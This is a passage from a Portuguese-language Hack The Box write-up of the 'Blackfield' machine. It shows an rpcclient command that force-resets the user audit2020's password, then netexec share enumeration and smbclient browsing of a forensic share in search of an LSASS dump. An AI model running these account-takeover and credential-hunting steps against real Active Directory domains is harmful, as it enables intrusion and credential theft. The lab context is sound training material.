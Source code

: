 ![](ss/force_change_password.png)

​	Após um tempo de pesquisa descobrimos que é possível fazer essa mudanca usando o [rpcclient](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#forcechangepassword). 

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield]
└─$ rpcclient -U "support%#00^BlackKnight" blackfield.local                                                
rpcclient $> setuserinfo2 audit2020 23 'P@ssword1234'
```

​	Neste caso, alteramos a senha do usuário **audit2020** para **P@ssword1234**.

​	Podemos utilizar esse usuário novo para ver o que temos acesso no SMB e ao fazer isso podemos perceber que agora temos acesso ao diretório "forensic".

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield]
└─$ netexec smb blackfield.local -u audit2020 -p "P@ssword1234" --shares
SMB         10.129.229.17   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\audit2020:P@ssword1234 
SMB         10.129.229.17   445    DC01             [*] Enumerated shares
SMB         10.129.229.17   445    DC01             Share           Permissions     Remark
SMB         10.129.229.17   445    DC01             -----           -----------     ------
SMB         10.129.229.17   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.229.17   445    DC01             C$                              Default share
SMB         10.129.229.17   445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.129.229.17   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.229.17   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.229.17   445    DC01             profiles$       READ            
SMB         10.129.229.17   445    DC01             SYSVOL          READ            Logon server share
```

​	Ao analisarmos o diretório à procura de algo interessante, podemos encontrar um arquivo zip chamado "lsass.zip". Podemos baixá-lo para ver o que existe de interessante nele.

```bash
┌──(kali㉿kali)-[~/…/HTB/Blackfield/files]
└─$ smbclient //10.129.229.17/'forensic' -U "audit2020%P@ssword1234"
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 10:03:16 2020
  ..                                  D        0  Sun Feb 23 10:03:16 2020
  commands_output                     D        0  Sun Feb 23 15:14:37 2020
  memory_analysis                     D        0  Thu May 28 17:28:33 2020
  tools                               D        0  Sun Feb 23 10:39:08 2020

                5102079 blocks of size 4096. 1691282 blocks available
smb: \> cd memory_analysis
smb: \memory_analysis\> ls
  .                                   D        0  Thu May 28 17:28:33 2020
  ..                                  D        0  Thu May 28 17:28:33 2020
```
